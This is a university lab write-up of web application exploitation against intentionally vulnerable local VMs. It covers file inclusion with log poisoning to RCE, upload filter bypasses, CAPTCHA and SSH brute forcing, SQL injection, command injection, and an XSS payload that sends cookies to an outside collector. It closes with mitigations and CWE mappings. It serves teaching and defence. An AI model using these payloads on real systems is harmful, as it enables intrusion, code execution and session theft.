







# Lab 2: web application exploitation

The web counterpart to lab 1. Instead of memory corruption, this one attacks intentionally vulnerable web apps on local VMs, done in a university software-security lab (ÉTS, Montréal, winter 2026). It covers the common server-side web bugs end to end: file inclusion, insecure upload, a brute force past a CAPTCHA, SQL injection, cross-site scripting, OS command injection, and an SSH brute force.

Lab done in a team of 4. Write-up and reformulation by Ilyas El Houdaigui. No teammate names or student IDs are included. The challenge flags (`LOG460{...}` and the per-level markers) are kept as proof of success; they belong to this lab instance and are worthless anywhere else.

French version: [README.fr.md](README.fr.md).

Contents:

1. [Local file inclusion](#local-file-inclusion)
2. [Insecure file upload](#insecure-file-upload)
3. [Brute forcing a CAPTCHA-protected login](#brute-forcing-a-captcha-protected-login)
4. [SQL injection](#sql-injection)
5. [Reflected XSS to cookie theft](#reflected-xss-to-cookie-theft)
6. [OS command injection](#os-command-injection)
7. [SSH brute force](#ssh-brute-force)
8. [Tools](#tools), [Mitigations](#mitigations), [Vulnerability summary](#vulnerability-summary)

---

## Local file inclusion

The target (`pastagen.local`) includes a user-controlled parameter with `include($pasta)` and no validation, which is a classic LFI (CWE-98). The web user is `www-data`.

Reading an arbitrary file with path traversal:

```
http://pastagen.local/?pasta=../../../../etc/passwd
```

returns `/etc/passwd`, where the last line holds the first flag (`FLAG-WHERE_DID_YOU_GET_THAT_PASTA`).

Reading PHP source instead of executing it, with the `php://filter` wrapper to base64-encode the file before inclusion:

```
http://pastagen.local/?pasta=php://filter/convert.base64-encode/resource=index.php
```

Decoding the output (`echo '<base64>' | base64 -d`) shows the source, with the second flag in a comment (`FLAG-THAT_IS_NOT_A_COPYPASTA`).

The most interesting step is turning the LFI into remote code execution through log poisoning. Apache logs every request's `User-Agent` into `access.log`, which `www-data` can read. First poison the log with a PHP payload in the User-Agent:

```
curl http://pastagen.local/ -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

Then include the log through the LFI and pass a command. When `include` parses the log line by line, the poisoned line is executed:

```
http://pastagen.local/?pasta=../../../../var/log/apache2/access.log&cmd=whoami
```

From there, `cmd=ls /` locates the flag file, and `cmd=cat /flag_<hash>.txt` returns the third flag (`FLAG-LFI_TO_RCE_IN_A_FEW_STEPS`).



This chain goes from arbitrary file read (CWE-98, CWE-22) to full code execution (CWE-94).

## Insecure file upload

Four upload endpoints, each with a slightly stronger filter and a bypass for it (all CWE-434, unrestricted upload of a file with a dangerous type).

`upload1.local`: no validation at all. A `.php` file is accepted and executed. Uploading a one-line reader (`<?php echo file_get_contents($_GET['f']); ?>`) and opening it reads the app source, where the flag sits in a comment.

`upload2.local`: the server trusts the HTTP `Content-Type` header, which the browser sets and an attacker controls. Intercepting the upload with Burp Suite and changing `Content-Type: application/x-php` to `image/jpeg` gets a PHP file past the check. Visiting the uploaded file then runs it.



`upload3.local`: an extension allowlist that only checks for a valid extension somewhere in the name. Renaming the file to `image.jpg. .php` (trailing dot and space) passes the filter, and Apache still runs it as PHP because it ignores the trailing characters.

`upload4.local`: the strongest, with an allowlist plus a magic-byte check. The bypass is a polyglot: a real JPEG with PHP appended, plus a `.htaccess` (uploaded as `.htaccess.jpg` through Burp) that adds `AddType application/x-httpd-php .jpg` so `.jpg` files execute as PHP. Because `system()` is disabled through `disable_functions`, the payload reads the target with `file_get_contents('/var/www/html/index.php')` instead, and the flag comes back in the page.

## Brute forcing a CAPTCHA-protected login

`admin-panel.local` guards its login with a math CAPTCHA, which stops a naive brute force but not a scripted one. A Python script with requests and BeautifulSoup fetches the page, pulls the math expression out of the CAPTCHA field, evaluates it, and submits the username, a candidate password, and the computed answer, looping over a wordlist and checking the response for success or failure markers.

```python
def get_captcha_answer(session):
    resp = session.get(TARGET_URL)
    soup = BeautifulSoup(resp.text, "html.parser")
    placeholder = soup.find("input", {"name": "captcha"}).get("placeholder", "")
    expression = re.search(r'(\d+\s*[\+\-\*\/]\s*\d+)', placeholder).group(1)
    return int(eval(expression))

# for each password: get a fresh captcha, then POST username + password + answer
```

The recovered password was `zIF4mwOw`, which opened the admin panel and its flag. The real problem is a CAPTCHA that a script can read and the lack of rate limiting (CWE-307).



## SQL injection

`wisdom.local` is injectable on its search parameter, backed by SQLite (CWE-89). The usual steps:

```sql
' ORDER BY 3-- -                                         -- errors: there are 2 columns
' UNION SELECT sqlite_version(),2-- -                    -- 3.40.1
' UNION SELECT name,2 FROM sqlite_master WHERE type='table'-- -   -- finds a hidden table
' UNION SELECT flag,2 FROM my_s3cr3t_7abl3-- -           -- reads the flag
```

The hidden table `my_s3cr3t_7abl3` holds the flag: `LOG460{2022_y3t_sql_1nj3ct10ns_4r3_st1ll_4_pr0bl3m}`.



## Reflected XSS to cookie theft

The same injection point reflects output into the page unescaped, so it also allows XSS (CWE-79). Confirming it:

```
' UNION SELECT 2,'<script>alert(1);</script>'-- -
```

To actually steal a session, the payload injects an image whose URL carries the victim's cookie to a collector I control (a RequestBin endpoint):

```
' UNION SELECT 2,'<script>document.write("/?c=".concat(document.cookie).concat(">"));</script>'-- -
```

Submitting that URL through the site's "report a bug" form makes the admin visit it, and the admin's cookie lands in the collector, carrying the flag `LOG460{st34l1ng_c0ok1es_1s_n0t_k1nd_4t_all}`.



This is the classic reason session cookies should be `HttpOnly`: JavaScript could not read the cookie if they were.

## OS command injection

`whois.local` passes the `query` parameter toward a shell. The developer added a regex that only allows characters valid in a hostname, but a URL-encoded newline (`%0A`) breaks out of the host argument and starts a new command:

```
http://whois.local/query.php?host=test%0A&query=ls
```

`ls` lists the directory and reveals a `flag_<hash>.txt`, then:

```
http://whois.local/query.php?host=test%0A&query=cat flag_<hash>.txt
```

returns `FLAG-RTFM_N3XT_T1ME!!_ed4f76a4f`. This is OS command injection (CWE-78): the filter blocks characters but not the control flow.



## SSH brute force

The last part recovers the SSH password of a user `john`. Knowing the password looked like a name plus a date, a short Python script generates a wordlist of `john<DDMMYYYY>` over a range of years, and Hydra tries them against SSH:

```python
import datetime
d, end = datetime.date(1992, 1, 1), datetime.date(1997, 12, 31)
with open("wordlist.lst", "w") as f:
    while d <= end:
        f.write(f"john{d.strftime('%d%m%Y')}\n")
        d += datetime.timedelta(days=1)
```

The password was `john19031995`. With it, SSH in and read the flag:

```
ssh john@<target>
cat /flag.txt      # LOG460{a959bc95790842e95bd9c81707673eee309d34d7e158137f}
```



A guessable, pattern-based password with no rate limiting is what makes this work (CWE-307, CWE-521).

---

## Tools

- Burp Suite for intercepting and editing upload requests.
- `curl` for poisoning the Apache log and for quick requests.
- Python with requests and BeautifulSoup for the CAPTCHA-aware login brute force, and to generate the SSH wordlist.
- Hydra for the SSH brute force.
- A public request collector (RequestBin / Pipedream) to receive the exfiltrated cookie.
- Browser devtools and view-source to read responses.

## Mitigations

- File inclusion: never pass user input to `include`/`require`. Use an allowlist of known files, disable `allow_url_include`, and keep logs out of any includable path. CWE-98, CWE-22.
- File upload: validate on the server with both a magic-byte check and an extension allowlist, store uploads outside the web root with random names, and make the upload directory non-executable. Do not trust `Content-Type`, and do not let users drop a `.htaccess`. CWE-434.
- Login and CAPTCHA: add real rate limiting and lockout, and use a CAPTCHA a script cannot read. A math expression in a field is not one. CWE-307.
- SQL injection: use parameterized queries. CWE-89.
- XSS: encode output for the HTML context, add a Content Security Policy, and set session cookies `HttpOnly` so script cannot read them. CWE-79.
- Command injection: do not build shell commands from user input. Call APIs directly or use strict allowlists. Blocking characters is not enough when control characters still pass. CWE-78.
- SSH: require strong, non-guessable passwords or key auth, and add rate limiting (fail2ban). CWE-307, CWE-521.

## Vulnerability summary

Overall initial access technique: T1190 (exploit public-facing application). The brute forces map to T1110.

| Part | Vulnerability | CWE |
|------|---------------|-----|
| 1 | Local file inclusion, then log poisoning to RCE | CWE-98, CWE-22, CWE-94 |
| 2 | Unrestricted file upload (4 filter bypasses) | CWE-434 |
| 3 | Weak CAPTCHA / no rate limiting | CWE-307 |
| 4 | SQL injection | CWE-89 |
| 5 | Reflected XSS, cookie theft | CWE-79 |
| 6 | OS command injection | CWE-78 |
| 7 | SSH password brute force | CWE-307, CWE-521 |

## Note on scope and ethics

Every target here was an intentionally vulnerable app on a local lab network set up for the exercise. The cookie exfiltration used a throwaway collector and the victim was the lab's own admin bot. Nothing was run against a system I do not own, and the flags are lab-instance markers with no value outside it.
